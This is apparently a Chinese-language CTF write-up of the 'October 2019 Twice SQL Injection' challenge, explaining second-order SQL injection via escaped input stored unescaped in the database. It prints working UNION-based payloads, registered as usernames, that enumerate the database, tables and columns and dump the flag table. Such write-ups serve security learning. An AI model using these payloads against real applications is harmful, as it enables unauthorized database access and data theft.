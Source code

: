 ```yaml
---
title: October 2019 Twice SQL Injection
date: 2024-06-19 21:42:53
tags: 
    - 题解
    - sql注入
categories: 刷题笔记
---
```


### October 2019 Twice SQL Injection（二次注入）

日常注册登录一下，我们发现登录后有一个提交框

![image-20240620124825255](https://insey.oss-cn-shenzhen.aliyuncs.com/kin/202406201248375.png)

我们试着写个sql语句

```
1' or 1=1#
```

![image-20240620124907542](https://insey.oss-cn-shenzhen.aliyuncs.com/kin/202406201249572.png)

发现页面将 ' 进行了转义,并将语句打印在页面上

这个转义就导致页面存在了二次注入

### 二次注入的原理:

在第一次进行数据库插入数据的时候，使用了 addslashes 、get_magic_quotes_gpc、mysql_escape_string、 mysql_real_escape_string等函数对其中的特殊字符进行了转义，但是addslashes有一个特点就是虽然参数在过滤后会添加 “\” 进行转义，但是“\”并不会插入到数据库中，在写入数据库的时候还是保留了原来的数据。在将数据存入到了数据库中之后，开发者就认为数据是可信的。在下一次进行需要进行查询的时候，直接从数据库中取出了脏数据，没有进行进一步的检验和处理，这样就会造成SQL的二次注入。
比如在第一次插入数据的时候，数据中带有单引号，直接插入到了数据库中；然后在下一次使用中在拼凑的过程中，就形成了二次注入。



我们可以通过注册恶意用户名来登录，获取数据库内容

注册用户名为：1' union select database() #，密码为123的用户，进行登录

![image-20240620125455134](https://insey.oss-cn-shenzhen.aliyuncs.com/kin/202406201254192.png)

得到了数据库名

```
ctftraining
```

我们接下来爆表

```
1' union select group_concat(table_name) from information_schema.tables where database()=table_schema#

123
```

![image-20240620125840180](https://insey.oss-cn-shenzhen.aliyuncs.com/kin/202406201258211.png)

爆flag字段

```
1' union select group_concat(column_name) from information_schema.columns where 'flag'=table_name#

123
```

![image-20240620125944767](https://insey.oss-cn-shenzhen.aliyuncs.com/kin/202406201259788.png)

爆flag

```
1' union select group_concat(flag) from flag#

123
```

![image-20240620130036683](https://insey.oss-cn-shenzhen.aliyuncs.com/kin/202406201300711.png)
